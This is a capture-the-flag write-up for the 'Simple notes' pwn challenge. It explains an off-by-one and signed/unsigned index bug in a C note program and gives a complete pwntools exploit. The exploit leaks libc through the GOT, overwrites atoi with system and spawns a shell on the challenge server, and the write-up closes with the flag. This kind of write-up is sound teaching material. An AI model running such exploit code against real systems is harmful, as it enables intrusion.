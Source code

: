 # Simple notes

![alt logo](./logo.png)

## Description

Category : pwn<br>
Points : 400

I needed a way to take quick notes on the command line. I might have missed something...

## Analysis 
This is a simple notes program, we can create/read/delete/edit simple notes. The first bug is is commonly refered to as "off by one" error.
The program is reserving memory for 256 notes but it starts to count from -1
allowing us to create 257 notes.
```c
#define MAX_NOTES   256
.
.
void create_note() {
    unsigned int size;
    int current;
    if (notebook.current < MAX_NOTES) {
        current = notebook.current + 1;
.
.
notebook.current = -1;
.
.
```
The "importance" variable in note257 will overwrite the "current" variable (the notes count) that is located directly after note256. 
So we have total control on the "current" variable<br>
```c
typedef struct Note {
    int importance;
    char *content;
}Note;

typedef struct Notebook {
    Note notes[MAX_NOTES];
    int current;
}Notebook;
```
The second bug is the type confusion. By setting "current" to -3, it will be incremented by 1 setting is to -2.
The "current" variable's type is "int" but the "index" variable type is "unsigned int", so the program is tricked to treat the "current" variable as "unsigned int", now instead of comparing the index to the signed value of 0xffffffff which is -1, it will compare the index to the unsigned value of 0xffffffff which is 4294967295. So we can enter any index number (negative or positive) and it will always be less than 4294967295 (0xffffffff).
```c
int read_index() {
    printf("Index: ");
    unsigned int index = read_int();
    if (index >= notebook.current+1) {
        puts("Invalid index");
        return -1;
    }
    return index;
}
```
## Solution
First we create 256 notes, then we overwrite the current variable by creating the 257 note and giving it importance value of -3,
then we leak puts address from got.plt by reading note at index -8, calculate libc system address based on the offset, then 
overwrite atoi got.plt entry with system address by editing the note at index -6 and setting its importance to system address
then we pop a shell by setting the size field to "/bin/sh".

## Exploit
```python
#!/usr/bin/env python3

from pwn import *
import ctypes

exe = ELF("./simple_notes")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
context.terminal = ['st']

def conn():
    if args.LOCAL:
        return process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("challenges.unitedctf.ca", 1234)

def create_note(io, imp, size, data):
    io.recvuntil("> ")
    io.sendline("1")
    io.recvuntil("Importance: ")
    io.sendline(str(imp))
    io.recvuntil("Size: ")
    io.sendline(str(size))
    io.sendline(data)

def read_note(io, idx):
    io.recvuntil("> ")
    io.sendline("3")
    io.recvuntil("Index: ")
    io.sendline(str(idx))

def edit_note(io, idx, imp, size):
    io.recvuntil("> ")
    io.sendline("4")
    io.recvuntil("Index: ")
    io.sendline(str(idx))
    io.recvuntil("Importance: ")
    io.sendline(str(imp))
    io.recvuntil("Size: ")
    io.sendline(str(size))

def main():
    r = conn()

    # overwriting current variable with 0xffffffff to bypass the index check
    for i in range(256):
        create_note(r, i, 9, "asdf")
        log.info(f"Creating note number: {i}")
    create_note(r, -3, 9, "asdf")

    # leaking libc address
    read_note(r, -8)
    r.recvuntil("Importance: ")
    libc.address = int(r.recvline(keepends=False)) - libc.sym.puts
    log.info(f"Leaking libc address : {hex(libc.address)}")

    #overwriting the got entry for atoi to system
    edit_note(r, -6, ctypes.c_int32(libc.sym.system).value, "/bin/sh\0")

    r.interactive()

if __name__ == "__main__":
    main()
```

## Flag
```
FLAG-b21f3c6ea1d1edd90800f802e73d839f
```

[Unitedctf's write-ups and challenges files](https://github.com/UnitedCTF/UnitedCTF-2021)

